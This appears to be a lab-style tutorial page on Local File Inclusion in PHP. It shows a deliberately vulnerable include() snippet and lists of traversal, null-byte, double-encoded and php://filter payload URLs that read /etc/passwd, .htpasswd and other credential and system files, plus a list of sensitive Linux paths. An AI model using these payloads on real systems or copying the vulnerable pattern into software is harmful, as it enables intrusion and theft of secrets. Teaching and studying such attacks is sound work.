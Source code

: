 ### How does an LFI Attack Work

A Local File Inclusion can occur when an application includes a file as user input without properly validating it. This flaw enables an attacker to include malicious files by manipulating the input.

The following vulnerable PHP code could lead to LFI:

```bash
https://website-example.com/?page=filename.php
https://website-example.com/?page=../../../../etc/test.txt
https://example-vulnerable-website.com/?helpfile=../secret/.htpasswd
https://example-vulnerable-website.com/?module=/etc/passwd
https://example-vulnerable-website.com/?module=contact.php
http://www.example_target_website.com/download.php?file=../../../../etc/passwd
http://www.example_target_website.com/download.php?file=document.html
https://example-vulnerable-website.com/?helpfile=login.txt
https://example-vulnerable-website.com/?module=uploads/image123.gif
https://example-vulnerable-website.com/?download=brochure.pdf
https://example-vulnerable-website.com/?download=../include/connection.php
```
#### An LFI vulnerability is found in various web applications. As an example, in the PHP, the following functions cause this kind of vulnerability:

```bash
include
require
include_once 
require_once 
```
#### The following is an example of PHP code that is vulnerable to LFI. 
```bash
<?PHP 
    include($_GET["file"]);
?>
```
The PHP code above uses a `GET` request via the URL parameter `file` to include the file on the page. The request can be made by sending the following HTTP request: `http://example.thm.labs/index.php?file=hello.txt` to load the content of the `hello.txt` file that exists in the same directory.

The following are some Linux system files that have sensitive information.
```bash
/etc/issue
/etc/passwd
/etc/shadow
/etc/group
/etc/hosts
/etc/motd
/etc/mysql/my.cnf
/proc/[0-9]*/fd/[0-9]*   (first number is the PID, second is the filedescriptor)
/proc/self/environ
/proc/version
/proc/cmdline
```
```
http://website.com/index.php?err=../../../../../../../../etc/passwd HTTP/1.1
```
```
http://example.thm.labs/page.php?file=/etc/passwd
http://example.thm.labs/page.php?file=../../../../../../etc/passwd
http://example.thm.labs/page.php?file=../../../../../../etc/passwd%00
http://example.thm.labs/page.php?file=....//....//....//....//etc/passwd
http://example.thm.labs/page.php?file=%252e%252e%252fetc%252fpasswd
```

#### PHP Filter

```
lfi=php://filter/resource=/etc/passwd

lfi=php://filter/convert.base64-encode/resource=/etc/passwd
```

